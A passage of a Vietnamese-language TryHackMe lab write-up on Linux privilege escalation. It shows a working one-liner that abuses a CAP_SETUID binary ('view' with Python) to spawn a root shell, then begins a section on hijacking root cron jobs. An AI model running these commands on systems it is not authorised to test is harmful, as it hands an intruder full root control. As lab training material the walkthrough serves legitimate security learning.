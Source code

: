 Ở đây ghi là: Nếu tệp nhị phân có bộ khả năng CAP_SETUID của Linux hoặc được thực thi bởi một tệp nhị phân khác có bộ khả năng, thì nó có thể được sử dụng làm cửa sau để duy trì quyền truy cập đặc quyền bằng cách thao tác tiến trình UID của chính nó.

Copy lệnh ***./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'***

Thay py thành py3 và path đến view, lệnh trở thành: 

***/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'***

Sau khi chạy lệnh, truy cập được với quyền root: 

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image94.png?raw=true)

Thử tìm flag4.txt

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image95.png?raw=true)

**Task 9: Privilege Escalation: Cron Jobs**

Cron jobs là các tác vụ được lập lịch chạy tự động theo thời gian định sẵn. Chúng chạy với quyền của chủ sở hữu thay vì người dùng hiện tại. Nếu một cron job chạy với quyền root và có thể chỉnh sửa tệp lệnh của nó, thì mã tùy chỉnh sẽ được thực thi với quyền root.

**Xác định Cron Jobs chạy với quyền Root**

Cấu hình cron được lưu trong các crontabs. Mỗi người dùng có thể có một crontab file, ngay cả khi họ không đăng nhập. Mục tiêu là tìm một cron job của root và thay thế tập lệnh của nó.

Để kiểm tra các cron jobs trên toàn hệ thống:

    cat /etc/crontab

